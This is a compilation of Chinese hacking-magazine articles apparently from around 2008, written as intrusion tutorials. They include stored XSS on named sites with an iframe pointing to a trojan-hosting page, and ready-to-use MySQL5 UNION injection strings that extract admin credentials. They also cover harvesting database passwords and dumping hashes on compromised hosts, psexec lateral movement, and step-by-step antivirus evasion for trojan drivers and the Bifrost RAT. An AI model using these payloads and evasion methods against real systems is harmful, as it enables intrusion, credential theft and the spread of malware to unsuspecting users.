eWeb 的漏洞大家可以直接利用，效果很理想哦，很乐意和大家技术交流。www.52cmd.cn，雕牌。

【作者的雕牌专用 ASP 后门已收录在本期光盘】

下面用一句话连接一下（如图 10）。


## 四、总结

本次入侵实话说没什么技术含量，只是给大家带来了一次不完整的入侵，之所以不完整是因为 3389 没拿，呵呵，没那么必要了，安全即可而止就行了。关于这个 eWebEditorNet/upload.aspx 漏洞的原理，大家可以自己再多研究研究。

编辑点评：文章似乎对 eWebEditorNet/upload.aspx 这个漏洞的原理说得不太透彻，不知上传 asp、aspx 格式的文件用同样的方法可不可以绕过过滤。由于 aspx 我也没学过，所以不好多讲，看文章给的代码和利用情形，应当是这个文件根本没有对上传后缀进行验证，或只是客户端验证了一下，大家还是自己试试这个漏洞吧。


## 从头开始 XSS 跨站

小帅 @ [O.S.T]

最近的跨站玩得有点火爆起来了，小菜我也就去研究了一下，其实也不算是研究，算是一个整理和分析吧。在研究这期间，听闻不少人对跨站危害的感觉就一个字：差。其实，至少国外的 XSS 已经很厉害了。最近我看到了一份调查显示，08 年十大安全威胁预测，其中，跨站被排列在第 7。钓鱼攻击一直是很有效率的，因为他们利用一些真正的网站欺骗用户输入敏感的数据。由于实施这种攻击的技术在发展，钓鱼攻击将成为明年十大威胁之一。

那么，什么是跨站呢？XSS 又叫 CSS（Cross Site Script），即跨站脚本攻击。它指的是恶意攻击者往 Web 页面里插入恶意 HTML 代码，当用户浏览该页之时，嵌入其中 Web 里面的 HTML 代码会被执行，从而达到恶意用户的特殊目的。XSS 属于被动式的攻击，因为其被动且不好利用，所以许多人常忽略其危害性。就个人而言，我把 XSS 攻击分两类：

- 一类是来自内部的攻击，主要指的是利用程序自身的漏洞，构造跨站语句，如：dybbs 的 showerror.asp 存在的跨站漏洞。
- 另一类则是来自外部的攻击，主要指的是自己构造 XSS 跨站漏洞网页，或者寻找非目标机以外的存在跨站漏洞的网页。

如果我们要渗透一个站点，我们自己构造一个有跨站漏洞的网页，然后构造跨站语句，通过结合其它技术，如社会工程学等，欺骗目标服务器的管理员打开。

我给测试了一下，才几个小时效果如图 6 所示。


## 1. 安全 360 跨站漏洞

在当你上网玩的时候，发现异常情况了，如图 1 所示。

大家仔细看这图，这张是几个月前我发现的一个安全 360 跨站漏洞。当然已经和官方说了，补得也相当快。`<script>alert("from Okce")</script>` 直接入库了，也就是把这个恶意代码给嵌入到了网页当中，只要有人打开这个网页，这个恶意代码将会被完全执行。那么，这个入库有多大的危害呢？假设我写的不是 from Okce，而是一个网页的地址呢？你进去的时候是正常显示所有页面，但是你觉得安全吗？官方的地方不是一定完全的安全，这话也验证了“世界上没有一件东西是完美的”这个道理。360 对这个是没有字符限制的，也没有任何的过滤，这个活动范围大了吧！我们所要做到的是：恶意用户的 HTML 输入 ——> Web 程序 ——> 读入数据库 ——> Web 程序 ——> 用户浏览器


测试：``

也很成功，那么我们的一个 XSS 到手了。

## 2. Sina 跨站漏洞

Sina 跨站不是一天两天的事了。上次出的是在自定义模块中存在跨站，现在本人在自定义链接及模板设置发现均存在跨站，如图 2、3 所示。


当然，跨站并不是只有弹框那么点功能，也可以盗取 cookie，在这个年代，我真不想去说盗 cookie 了。因为 cookie 的安全实在差，盗来也没什么大的用处。但是如果想入侵一个后台是靠用户 cookie 验证的网站，那么，在得不到任何信息的情况下，XSS 是首选。

写到这，我也有点糊涂了，整理下思路吧，XSS ——> 入库 ——> 得到地址 ——> 为所欲为。Sina 对博客有一个很好的“设置”，会显示来过你博客的人的名单，如图 4 所示。


这个功能帮助我们的马飞得更远，传播得更快。由于网民素质并不是很高，当遇到诱人的标题时，访问量也有上千万的。

也许有的人还是有点不太懂，呵呵，毕竟刚入门，我再说得细点。请问：什么地方能把我们的信息给写到数据库里头？这个不言而喻了，当然是注册信息及一些能保存资料的地方。菜鸟又得问了：就写那一句 `<script>alert("test")</script>` 吗？是的，的确只要写那一句话就行了，但是那只是作为测试用。对着 Sina 的设置里的跨站跑吧！在“模板设置”里头写入以下语句：`<iframe src=http://www.****.com/064.htm width="0" length="0"></iframe>`，当然，地址就写你挂马的地址咯。设置如图 5。

## 3. 酷狗跨站

上网听音乐的人都知道 Kugoo（酷狗）这款软件吧，音乐倒是应有尽有的。但是，问题也出来了。问题出在博客，也是没过滤，直接进了库了，导致 XSS 的出现。就在“个人资料”里把签名写上挂马地址，如图 7、8。


## 4. 中国博客网跨站

图 9 是有名的“中国博客网”，十分不幸，也是存在跨站漏洞的。

这么多的地方存在跨站，知道跨站的普遍性了吧。以上的几个是实质上的完全入库的跨站漏洞，并且对字符无限制和过滤。以 Sina 为首的一些大站，都能跨，这个使得用户的安全性有所下降，必定有点担忧。因此，XSS 不只能弹一个框出来。如果跨站跨得好的话，利用一些地方的诱惑，可能也会得到一定的信息，设置如图 10。


## 5. 狗狗的跨站

在浏览器里直接输入跨站代码 `<script>alert("xss")</script>`（如图 11）。

## 6. SoGua 跨站

SoGua 是一个流量不错的站点。类似这样的网站普遍存在。

xss，所以我们可以根据这个来做文章。当你外面撒了 shell，旁注也没什么办法的时候，可以构造 xss，发给管理员。这个站也是在注册的时候不仔细过滤，造成了 xss，如图12所示。还有搜索的地方（如图13）。

妙并不只那么点点，我这也只是一个冰山一角；实践理论结合，则能有更完美的 xss 出来。并且，实际意义上的 xss 并不只那么点作用；在国外，这个技术相当火爆，涉及的安全领域十分大。入库的恶意代码永远是最危险的……如果你是一位社会工程学爱好者的话，嗯！学习好 xss 还是有点必要的。文章也没什么高明之处，只是说明入库地点及方法，也希望同学们能善待自己的 hack 技术，毕竟盗取别人的账号，别人也是一件伤心的事。文章献给新年的同学们，希望大家能在新的一年有好的收获，好的进步。

在这没有闭合，大家看到了那个“>”标记了吗？那么我们闭合一下，产生的效果如图14所示。

> 编辑点评：说句实话，我对这篇文章很失望。里边对跨站只是提到了一个弹框框，一个挂马，没有别的技术含量。我们的杂志要的毕竟是一份技术文章，而不是一份调查报告，更注重的是跨站的技巧，而不是漏洞站点的收集。不过作者能够找到这么多的弱站点，也说明作者去五研充了下跨站，希望这是一个开始不是结束。如果真正想深入研究跨站技术，HTML 技术要有足够高的水平才可以，这也不是作者的水平能够做到的。

在网络如此发达的今天，xss 的危害是和代码成正比的。这篇文章就算是献给和我一样刚学 xss 不久的同学们吧。跨站的奥妙并不只那么点点，我这也只是一个冰山一角；实践理论结合，则能有更完美的 xss 出来。

## 通过网页文件获取数据库账号和口令

■ Simeon

- 通过本案例可以学习到：
- 1. 了解动态网页的相关知识
- 2. 通过动态网页文件来获取数据库账号和口令

动态网页其显著特点之一就是与数据库的交互，只要涉及到大型数据库，动态网页调用其数据库一般都需要数据库账号和密码。这些大型数据库主要以 SQL Server 和 Oracle 数据库为代表，Access 一般不设密码，即使设置密码也可以使用“Access 密码查看器”获取其密码。当网站或者信息系统在调用数据库时，需要进行连接，考虑到执行效率和编码效率等原因，一般都将数据库连接等单独写成一个模块，这些文件主要用来连接数据库。在这些文件中会包含数据库服务器的 IP 地址、数据库类型、数据库用户账号以及密码等信息。

控制或者获取一个 Shell，可以通过查看 Index.asp、Index.php 以及 Index.jsp 等相关文件，从中去查看数据库连接文件。数据库连接文件的名称比较容易识别，例如 conn.asp、dbconn.asp 等，这些文件一般在网站根目录、inc 文件夹、includes 等位置。通过查看这些网页文件，获取数据库 IP 地址、数据库用户名以及口令，利用获取的信息可以进行计算机渗透、提升权限以及实施完全控制。本案例以国内某视频网站招聘网为例，来介绍如何通过动态网页来获取数据库的账号和口令。

## 一、确认网站脚本类型

确认网站脚本类型主要通过打开网站并访问其网站中的网页来确定。在本例中，打开 IE 浏览器，在其地址栏中输入 IP 地址“61.*.*.*”，打开网站后如图1所示。在浏览器底下的状态栏中可以看到详细的地址和文件显示，在本例中可以看到“http://*.*.*.*/shi.asp”，说明该网站脚本类型为 asp。

### 技巧

- （1）可以直接通过在浏览器中输入“http://*.*.*.*/index.asp”、“http://*.*.*.*/index.php”、“http://*.*.*.*/index.jsp”等来判断网站的类型，其方法是 IP 地址 + 文件名称，文件名称可以是 index.asp（jsp/php/aspx），也可以是 default.asp（jsp/php/aspx）等。
- （2）如果打开网页后，还无法确定该网站类型，则可以通过单击网站中的链接地址来确定。如果打开链接的网页名称为 asp，则网站脚本类型为 asp，其它脚本类型判断原理相同。
- （3）打开“Internet 信息服务（IIS）管理器”后，单击其“网站属性”中的“文档”，可以获取其网站默认文档名称。

## 二、获取网站具体目录位置

在本案例中，利用漏洞攻击的方法获取了该系统的用户账号和口令，利用 Radmin 远程控制软件直接进行完全控制。进入系统后，在该桌面发现有“Internet 信息服务”快捷键，双击该快捷键进入“Internet 信息服务（IIS）管理器”，依次展开至网站，选中“Web”网站文件夹，右键单击，然后选择“属性”，打开 Web 属性窗口，如图2所示。然后单击“主目录”获取其网站根目录为“D:\*”。

### 说明

在本案例中，该操作系统为 Windows 2003 Server，因此其 Web 目录跟 Windows 2000 Server 不一样，大致操作都差不多。打开其 IIS 管理器后，查找网站目录并展开即可获知其网站的具体位置。

## 三、查看网页脚本，获取数据库连接文件

从第二步中获取了网站文件所在的物理路径，通过资源管理器到该网站根目录，然后使用记事本打开网站调用首页文件 index.asp，如图3所示。从中可以获取其网站数据库连接文件极有可能为“i_include/database_.asp”。

## 四、获取数据库用户账号和密码等信息

在网站根目录中打开“i_include”文件夹，在其中找到“database_.asp”文件，使用记事本打开，其脚本如图4所示。从该脚本中获取其数据库类型为“SQL Server”，数据库服务器地址为本地（Local），用户为“sa”，密码为“111”，数据库为“i***”。

“i***”，通过该文件中的 conn.DefaultDatabase="job_demo2l_data_new" 还可以知道，该系统极有可能来自网上。

## 五、实施控制

在本案例中，如果数据库不是在本地，则可以通过注册 SQL Server 或者直接使用 SQLTools 连接，就可以添加用户和密码、执行命令。

## 安全防范措施

- 1. 使用 vb 等编程语言将数据库连接模块写成 dll，使用时在系统中注册即可。不过对于托管在虚拟主机上的个人网站来说，注册 dll 比较麻烦。
- 2. 使用微软自带的 screnc 软件进行加密。

## 六、小结

本案例通过利用漏洞攻击，获取了系统的用户和密码，通过系统中的原有远程控制软件，轻松获取了数据库账号和密码等信息。

> 编辑点评：
> 要想入侵网站，首先就得先了解网页文件！毕竟一个大站也是靠网页来“支撑”的啊！好好地利用，它会告诉入侵者很多信息。感谢作者带来的这篇文章，应该算是比较入门级的一个理论案例，学好基础才是王道！

## Mysql5 注射技巧总结

高手：

又是一期新的专题，我觉得这期题目是做到雅俗共赏了，但是文章却发现真不好写，因为将容纳的小东西很多在一起时，叙述的技巧你本来就注意到了。说这样的文章我也能写呀。对的，我们要做的就是收集每个人在入侵中觉得不错的小技巧，亲爱的读者和作者，你愿意公开你的小技巧吗？还有两期的专栏等着你。

这篇文章总结了 mysql5 下常规注入技巧。Mysql5 和之前的版本有很多不同的地方，灵活地运用其特性可以在入侵的时候省掉很多麻烦。我试图在本文把在《渗透周杰伦官方网站》中没有写清楚的部分表达出来，看明白这篇文章后也许你会发现，原来 mysql5 也可以像 mssql 一样注射。

## 一、原理分析

我们先看看 mysql5 所增加的系统数据库 information_schema 的结构，它是用来存储数据库系统信息的：

```sql
mysql> use information_schema;
Database changed
mysql> show tables;
```

| Tables_in_information_schema |
|---|
| CHARACTER_SETS |
| COLLATIONS |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS |
| COLUMN_PRIVILEGES |
| KEY_COLUMN_USAGE |
| ROUTINES |
| SCHEMATA |
| SCHEMA_PRIVILEGES |
| STATISTICS |
| TABLES |
| TABLE_CONSTRAINTS |
| TABLE_PRIVILEGES |
| TRIGGERS |
| USER_PRIVILEGES |
| VIEWS |

如果读者有兴趣，可以自己装一个 mysql5 研究一下这几个表存储的信息，我这里可挑注射中可以用到的几个表。

- **SCHEMATA** —— 存储数据库名的，关键字段：SCHEMA_NAME 表示数据库名称。
- **TABLES** —— 存储表名的，关键字段：TABLE_SCHEMA 表示表所属的数据库名称，TABLE_NAME 表示表的名称。
- **COLUMNS** —— 存储字段名的，关键字段：TABLE_SCHEMA 表示表所属的数据库名称，TABLE_NAME 表示所属的表名称，COLUMN_NAME 表示字段名。

可以看到，我们只要通过注射点构造查询语句的相关字段，就可以得到我们想要的信息了。

## 二、实战测试

到网上找到一个注射点，首先还是像以往一样猜字段、版本和数据库用户，如图1。

```sql
xx.com/news_info.php?wid=-1/**/union/**/select/**/1,user(),3,4,version(),6,7,8,9,10,11,12,13,14,15/*
```

下面猜数据库，可以通过不断递增 limit 的第一个参数查询到所有的数据库名，如图2。

```sql
xx.com/news_info.php?wid=-1/**/union/**/select/**/1,SCHEMA_NAME,3,4,5,6,7,8,9,10,11,12,13,14,15 from/**/information_schema.SCHEMATA limit 17,1/*
```

遍列 webbase 里面的表名，找到敏感的表，如图3（0x77656262617365 是 webbase 的十六进制编码）。

```sql
xx.com/news_info.php?wid=-1/**/union/**/select/**/1,TABLE_NAME,3,4,5,6,7,8,9,10,11,12,13,14,15/**/from/**/information_schema.TABLES/**/where/**/TABLE_SCHEMA=0x77656262617365/**/limit/**/11,1
```

tg_adminuser 十六进制编码为 0x74675F61646D696E75736572，依次查找该表里面的字段名，如图4、图5。

```sql
xx.com/news_info.php?wid=-1/**/union/**/select/**/1,COLUMN_NAME,3,4,5,6,7,8,9,10,11,12,13,14,15/**/from/**/information_schema.COLUMNS/**/where/**/TABLE_NAME=0x74675F61646D696E75736572/**/limit/**/1,1
```

```sql
xx.com/news_info.php?wid=-1/**/union/**/select/**/1,COLUMN_NAME,3,4,5,6,7,8,9,10,11,12,13,14,15/**/from/**/information_schema.COLUMNS/**/where/**/TABLE_NAME=0x74675F61646D696E75736572/**/limit/**/2,1
```

数据库、表名、字段我们都知道了，查出密码就很简单了，如图6。

```sql
xx.com/news_info.php?wid=-1/**/union/**/select/**/1,username,3,4,password,6,7,8,9,10,11,12,13,14,15/**/from/**/webbase.tg_adminuser
```

文章就到这里结束了，懂点 sql 语法的朋友应该看得比较明白了：）文章最后，亲亲偶的宝贝 gf 珍珍^_^。

> 编辑点评：mysql5 支持了 and 连接两个 select 查询，所以在没法用 union 的情况下，可以尝试用 and select 来一个字母一个字母猜密码，这个方法可以作为这篇文章的补充。

## 我在入侵过程中注意到的细节（一）

这篇文章你应当学会：

几个内网中不同情况下比较有用的命令和小工具的用法。细节决定成败，不但对于写程序、渗透入侵甚至人生都是如此。谈人生就有点深奥了，还是来说说入侵吧。记得很久前有一位同事，注入的时候，在 sa 权限什么命令都能执行的情况下竟然花费了三天左右的时间，为什么呢？这是因为他在 NBSI 下输了个 time 命令，想看下服务端的时间，结果命令无法应答！注入点卡在那儿了，再也没办法执行其它命令了，直到服务器重启。有些写得不好的木马，如果执行 time 命令也会自动退出。如果注意到了这个细节的话，最好的执行办法就是 time /t。

这一期我不谈注入，针对我在内网入侵的经验，来说一下细节吧。

- 1、系统自带命令的细节

拿到系统权限后，常会想到收集机器的信息。例如看看共有几个盘，难道要一个一个地去 cd 盘符吗？2003 系统的话就不必如此了，有一个命令很是方便：`fsutil.exe fsinfo drives`，可以列出全部盘符了（如图1）。

当然，这个命令还有其它用途，大家自己搜索研究吧。也许还有人说，`systeminfo` 命令更强大吧？当然个人有个人的爱好，像我还喜欢用 `start /wait msinfo32.exe /nfo swenv.nfo /categories +swenv-swenvprogramgroup-swenvstartupprograms`，这个示例收集了软件环境信息，但是不包括“程序组”和“启动程序”子类别，所创建的 .nfo 文件可以使用 Msinfo32.exe 读取（如图2、图3）。

大家自己执行一下，就会看到有多么强大了。另外，在域内网里如何判断哪台机器属于哪个域呢？当然命令也许有多个，最好用的应当还是 `net config Workstation`。说到 net 命令，其实对这个命令我还有一个独门绝技，用它来判断主域控制服务器。怎么判断呢？主域服务器一般也作为时间服务器，所以在域权限下用 `net time /domain` 的话，主域服务器的主机名立马拿来。其实如果每个命令我都打一个示例的话，再抓一个图，这篇文章就会很长，但是这里只起个抛砖引玉吧，只把我最常用的命令示例写出来，剩下的大家自己研究吧。

## 2、常用工具的细节

内网入侵后，通常做法是抓出用户的 hash 来破解密码，再试下别的机器是否同密码。抓 hash，有三个基本的工具：pwdump4、gethashes、fgdump，这三个 exe 大家应当都可以通过百度搜索到。我常用的是 gethashes，当 gethashes 无能为力的时候再请出 fgdump。不过我以前喜欢用 pwdump4，一般情况下 pwdump4 一抓会抓出机器的密码 HASH 值。但是有人会发现，pwdump4 在 3389 里用不了。编辑文章时常看到有人入侵了 3389，然后就说丢个 pwdump4 上去抓 hash，结果再也无声了。我估计这样的人都没有仔细操作。在 3389 情况下，正确用 pwdump4 的方法是先用 `psexec \\ip -u username -p password cmd.exe` 得到这个用户身份的 shell，然后再来用这个命令。说到 psexec，我就想到了一件有趣的事情。以前我在公司负责招人的时候，主要是招对渗透有经验的人。由于要考虑到招的人对内网的渗透水平，我会出这样一道测试题：两台机器一模一样，用户和密码都是相同的，两台之间只开了 139 和 445 互相通讯，其它端口不开，不过有一台可以溢出得到最高权限，另一台不可以。此时你溢出了一台，在溢出的 cmdshell 情况下如何再控制另一台？其实这道题我考的是被招的人对权限的认识。溢出的时候，是 system 权限的，此时要在这个权限的 cmdshell 下 ipc$ 另一台机器是不可以的，也是要先用 `psexec \\ip -u username -p password cmd.exe`（我只是示例，在溢出的 shell 下正确命令应当用 nc 反弹这个 psexec 的命令才能得到 cmdshell）得到这台溢出机器的用户权限 shell。此时两台机器密码用户名都相同，直接可以 `dir \\ip2\c$` 了，连 ipc$ 连接也不用做。这期的细节我先谈这两点吧，下期我们再来。

## 入侵过程中的常用小技巧（一）

大家在入侵过程中一定遇到过许多问题不知道怎么解决，主要是因为缺乏经验，找不到突破口。这里我给大家介绍一些常用到的小技巧，希望大家可以熟练掌握。以前其他人介绍得很多的我就不再说了。

## NO.1 3389 登录时提示超过终端最大允许连接数

也许大家曾经遇到过这样的情况：自己通过 webshell 提权添加用户成功了，但是登录服务器时却提示超过终端的最大允许连接数了。这是因为管理员设置了最大允许连接数。为了防止黑客入侵，一般都被设置成了 1；也就是说只有本地的这个用户是在线的。这个时候我们可以利用 mstsc 的一个参数解决这个问题：它就是 console。我们可以在终端登录器栏里填上这个参数，这样就可以成功登录服务器了。例如服务器 IP 为 127.0.0.1，端口是 2007，我们就可以在地址栏里填上 127.0.0.1:2007 /console，如图1。

```text
127.0.0.1:2007 /console
```

但是，需要注意一点，这个时候你登录后的桌面其实是和服务器端的一个用户一样的，尽管你使用的是不同的用户名和密码。所以当你完成所有操作后，不要注销，直接退出就可以了。

## NO.2 关于利用备份拿 shell

备份 ACCESS 拿 shell 是很常用的方法了，但是并不是所有时候都可以直接备份的。这个时候就要多观察。例如有些时候备份的地方数据库地址是灰色的，也可能备份的按钮是灰色的，但这只是本地的 html 代码造成的，页面中使用了 disable 参数。我仍可以本地保存文件后修改，但也可以直接利用工具。我给大家介绍工具的使用：IE 恶搞迷，是啊 D 写的一个小程序，可以直接修改本地网页的内容。

如图2，打开程序，然后点住那个放大镜，将它拖到你要修改的 IE 窗口，松开鼠标，下面的框中就选出网页的内容了。然后你可以找到代码中的 disable，将它删掉，最后点开始恶搞，网页中的按钮和文本框就可以使用或修改了。另外我们利用 Windows 2003 的漏洞上传的图片木马，例如 http://xxx.com/1.asp/lij.jpg；打开页面之后我们是不能直接登录的，因为登录页面是向 http://xxx.com/1.asp 提交密码的，这个时候我们也要用到 IE 恶搞迷。我们抓取到网页内容后，修改代码中的 action='/1.asp' 为 action='/1.asp/lij.jpg'，这样就可以登录进去了，如图3。

```html
<form action='/1.asp' method='post'>
```

当然，登录之后还是有许多地方不能直接使用。我们首先要做的是上传一个 asp 的木马到另外的目录，上传页面需要用同样的方法修改地址。成功上传之后就可以省去很多麻烦了。

先写这一部分吧，晚上还要上课的。呵呵，我自己写了一个 asp 解密游戏，一共两轮。到目前为止还只有两个人完全通过游戏，所以发出来让大家都来玩玩。游戏的地址是 http://game.lijiejie.com，页面很简陋，呵呵，用记事本写的。大家将就着玩吧，有疑问可以联系我。QQ：309725573。好了，我们下期见吧。

又快到元旦了，2008年了，奥运也快要开始。近年来关注得最多的可能就是奥运了吧，不知道大家是否会到北京看奥运呢？到时候，那时候好像正是暑假呢，如果来的话，别忘了去看看土豆，听说他很好客哦！

## SYS文件的免杀方法

■ 蜀国布衣


**从本文你可以学习到：**  
SYS文件的免杀

随着全新的08版杀毒软件的推出，主动防御一时成为火热的卖点。于是木马程序的免杀，已经由传统的文件表面和内存免杀，上升到突破杀毒软件的主动防御。可是随着很多日常改变主动防御功能木马的推出，主动防御好像已经不是什么问题了，现在新的问题又摆在了大家的面前，就是在突破主动防御时起关键作用的SYS文件，它又应该如何进行文件的免杀操作呢。

## 一、修改特征码

今天我们就用最新的黑洞国庆专版来进行测试，该版本已经可以突破包括卡巴基于花式主动防御功能的杀毒软件，而其中的SYS文件就是用于清掉杀毒软件的SSDT HOOK，从而成功地突破主动防御功能。首先利用黑洞洞天生成的服务端生成器，来创建一个服务端程序，注意配置服务端的时候不要选择加壳。接着运行专门的“EXE文件SYS提取器”，在“未加壳EXE文件路径”设置服务端程序的路径，而在“提取SYS文件路径”设置提取的文件路径，最后点击提取按钮就可以了（如图1）。


### 1. 查找特征码

现在运行MYCCL后点击“文件”按钮选择SYS文件，并将“带后缀”选项打勾选中。接着在“分块个数”选项中设置分块个数，我这里首先设置10个。设置完成后点击“生成”按钮，就能在目录中生成相应的程序分块。用杀毒软件对其分块进行查杀，然后点击“二次处理”按钮后，得到一个大概的特征码位置。特征码的大概范围知道以后，继续操作来缩小特征码的范围，点击MYCCL主界面中的“特征区间”按钮，在出现的“填充/特征码区间设定”窗口中，选中刚刚找到的那段特征码以后，选中右键中的“复合定位此处特征”命令。然后对特征码继续进行分块等进一步的操作，最终得到一组特征码的地址000007BE_00000002（如图2）。


### 2. 填充特征码

现在运行C32Asm后载入SYS文件，接着点击窗口右键中的“跳转”命令，在弹出窗口中的“OFFSET”输入特征码地址，即000007BE（如图3）。点击确定按钮后程序会自动跳转到特征码的位置。然后直接用00对找到的特征码进行填充，修改完成后对文件进行另存为操作即可。


### 3. 修改特征码

除了通过传统的00来填充特征码以外，我们还可以对特征码的汇编代码进行修改。当在十六进制窗口跳转到特征码位置后，点击鼠标右键中的“对应汇编模式编辑”命令，这样就跳转到程序的汇编窗口（如图4）。从图4中我们可以看到，这个特征码对应的汇编语句为PUSH EAX，现在点击右键菜单中的“汇编”命令，在弹出的窗口将PUSH EAX改为POP EAX就可以了（如图5）。


## 二、调整特征码

除了对特征码语句进行填充以外，我们也可以通过调整该汇编语句的位置，来躲过杀毒软件的查杀，从而达到免杀的效果。我们选择该特征码汇编语句上下的多句汇编语句，然后将原有代码的一句或多句汇编代码的顺序进行调换，比如原汇编语句顺序为：

```text
000107BB: 8D45 DC        LEA EAX,[EBP-24]
000107BE: 50             PUSH EAX
000107C3: 15 E00A0100    ADC EAX,10AE0
```

接着同样通过右键菜单中的“汇编”命令，在“汇编”窗口用不同的汇编代码调换以前的，然后对其进行保存就可以了：

```text
000107BE: 58             POP EAX
000107C3: 15 E00A0100    ADC EAX,10AE0
000107BB: 8D45 DC        LEA EAX,[EBP-24]
```

除此以外，我们还可以将特征码录入、移动到文件后面的空白位置再跳转。首先将特征码语句的内容进行复制，然后拖动侧边栏到程序的结尾，找到一行空白地址区域，我这里选择的是“00010DD1”。首先在原位置选择鼠标右键，在弹出的汇编窗口输入“jmp 00010DD1”，这样就可以使得程序跳转到原特征码的语句。现在再到“00010DD1”的地址处，在汇编窗口输入特征码的语句“PUSH EAX”，然后再加上一句“jmp 000107C3”，这样就可以使文件上下连通并畅通运行。

然后点击“文件”菜单中的“另存为”命令，对修改的文件内容进行保存并查杀，发现已经成功躲过了杀毒软件的检测。另外我们还可以在后面的部分，加入一小段的花指令内容，这样可以在简单的调整源代码内容无效时使用。由于SYS文件指令都是运行在ring0，所以大家在修改的时候一定要小心，最好不要频繁地跳来跳去，尽量不要改变原代码大小、执行流程等。

## 三、源代码加密

除了对特征码内容进行修改以外，我们还可以对文件入口点或特征码所在的多句汇编语句进行加密，从而让杀毒软件不能检测到它。经过测试我们发现，通过VMProtect和Code Virtualizer可以对驱动文件进行加密。

我们这里还是通过**VMProtect**来进行操作。首先运行VMProtect并点击“File name”按钮来选择SYS这个驱动文件。接着在All procedures列表中选中EntryPoint这一项，点击“Add”按钮添加到Procedures for protection列表。点击下一步后选中“Maximum speed”项目，最后再点击下一步按钮就可以成功对文件加密了（如图6）。


## 四、文件头修改

SYS文件虽然可以通过修改特征码进行，但是毕竟操作起来还是比较麻烦，其实我们还可以在文件头上做些文章。首先利用工具C32Asm的“打开十六进制”读取这个SYS文件，接着只需要将文件头的头两个字母MZ，一个或两个都改为小写字母就可以了。

另外还可以用“打开反汇编”命令打开该文件，然后在反汇编窗口中单击鼠标右键，选择其中的“跳到入口点”命令（如图7）。从图7中我们可以看到该SYS文件入口点的汇编语句为**PUSH 0**，单击右键中的“对应HEX编辑”命令后，在十六进制窗口选择菜单中的“对应汇编模式编辑”命令，最后通过“汇编”命令即可用**POP 0**或直接用**NOP**填充即可。


## 五、加壳处理

加壳操作一直是最常见的免杀方法之一，不过由于SYS文件运行在系统的内核空间，所以大多数加壳程序是没法使用的。不过ASPack这款加壳程序，却可以直接对SYS文件进行加壳，只需要对区段名称进行修改就可以起到免杀作用。另外我们还可以首先更改文件的后缀名，然后再使用其它的加壳工具进行操作。这里我们利用**RPolyCrypt**这款加壳软件来操作。运行它以后点击“浏览”按钮来选择需要处理的SYS文件。首先将区段名称进行修改，我们这里改为“.nohack”这个名称。接着选中“不添加新区段”、“隐藏真实入口”的选项，然后点击“加密”按钮完成最后的加壳操作（如图8）。

最后不要忘记了将后缀名更改回来。


## 六、小结

到此为止，关于一些常见的SYS文件的免杀方法就为大家介绍到这里。其实SYS文件的免杀一直是免杀中比较困难的点，因为很多针对EXE文件的方法对其根本无效，因此今天这样的讲解或许可以为大家提供一些提示。这样大家在以后的免杀操作中，也可以更加便捷顺手。今天所有的操作都是在金山毒霸2007的监测中完成的，对于其它的杀毒软件各位可以自己进行测试。

【本文介绍的相关工具和程序已收录在本期光盘中】

> 编辑点评：一般情况下，你可能更多地看见EXE文件的免杀，SYS的可能比较少见。其实，SYS文件和EXE、DLL、OCX等文件一样，都是PE文件，免杀有时候并不只是EXE文件而已。不过无论怎么样，只要达到免杀的效果就算是成功了。本文能给你EXE文件以外的免杀，相信学习本文之后，你也一定有进步。

## 疯狂免杀：木马进化吧，金山、NOD32、瑞星、巡洋舰等杀软……

从本文你可以学习到：木马如何过卡巴、金山、NOD32、瑞星、巡洋舰等杀软

想必大家也都做过不少的免杀木马了。可是，有时是不是总有那么几个杀毒软件过不去呢？明明定位出了木马的特征码，修改了却不能运行，or运行出错。怎么办呢？有的特征码定位在一个字符串上，这个字符串中修改了一个字符，这个程序就出错。有的杀毒软件定位特征码的方法很特别，定位的地址也很不好修改，就定在一个字节上，连个**JMP SHORT**（需要2个字节）都不能改，修改这个字符串中的一个字符都不行，那么我就说说自己修改特征码的几个方法吧。这次测试的木马是彩虹桥（Bifrost），我使用的是彩虹桥1.1版的个人修改版，用Restorator 2004导出彩虹桥的未配置的原程序（如图1）。这个原程序的大小为36.1K，不是很大。


## （一）过金山

金山的特征码定得很简单，就是新手也能很容易地过去。在手工进行粗定位时替换大小填256（如图2）就够了。生成的余数为一百多个。在粗定位时，金山对Bifrost的定义（如图3）全是一样的，这说明什么呢？这就说明，它没有用复合型特征码这个查毒方式。这样在第一次查毒后就会有几个免杀的文件了（如图4）。

粗定位定出的特征码为：


| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00008000 | 00000100 | 00008100 |
| 0002 | 00008800 | 00000200 | 00008A00 |


下面再细定位下，就是把替换大小设置为2（个人习惯）进行定位，定位出的特征码如图5所示。


这是文件地址，用OD载入，再用OC转换一下内存地址（如图6）。


很简单吧，在408EAA－408EFE中间，任意地修改一句就可以。我找的是以下两句：

```text
00408EB7    8365 E8 00    AND DWORD PTR SS:[EBP-18],0
00408EBA    8D45 BC       LEA EAX,DWORD PTR SS:[EBP-44]
```

把这两句的位置换下，改成这样子就可以了。

```text
00408EB7    8D45 BC       LEA EAX,DWORD PTR SS:[EBP-44]
00408EBA    8365 E8 00    AND DWORD PTR ...
```

成功上线（如图7），也可以JMP走。我在这也说下，什么时候用JMP，什么时候用调换指令。在定位出的特征码中，看看有没有能替换的指令，比如ADD EAX, 1，我们就可以用SUB EAX, -1的指令来替换。如果没有此类，就看有没有可以换位置的指令，什么样的可以换位置呢？就是这几条指令间的寄存器没有什么影响，比如上面的这个例子，而且不是用PUSH参数入栈，对于特征码在PUSH参数入栈的地方的时候就要用JMP了。要是有影响的话呢，就不能用这些方法了，剩下的方法呢，就是指令跳转法了，就是在特征码的地址用JMP把特征码的指令转出到一个空白的地址上，比如一片0000的地址（也不是所有的0000空间都可以用的，你用OD开分析的时候看到的是一片黑色的0000时，这个是可以用的，要是绿色的0000还是对齐方式存放的，这个就是一个数据结构了，这个地方是不能用来改写东西的，要是在这个地方写东西的话，写上了也会被后来的调用把数据破坏）。可见，指令跳转法是在什么情况下都可以用的，这是个通法。


## （二）过卡巴斯基

卡巴斯基采用的是复合型特征码，当然也可以通过加花的方法躲过。复合型特征码，可以用OCL来定位，这个工具在网上是很方便找的。它手工指定位时替换大小填256（如图2）。生成的个数为一百多个。用杀毒软件杀下，全被杀，没有一个剩下的。当你细看杀毒记录的时候你会发现杀毒软件对这个病毒的定义的名称大部分是一个，不过其中有几个定义是不一样的。这几个就是父特征码的位置，在这个父特征码下还有很多的子特征码，大约要有10层之多。

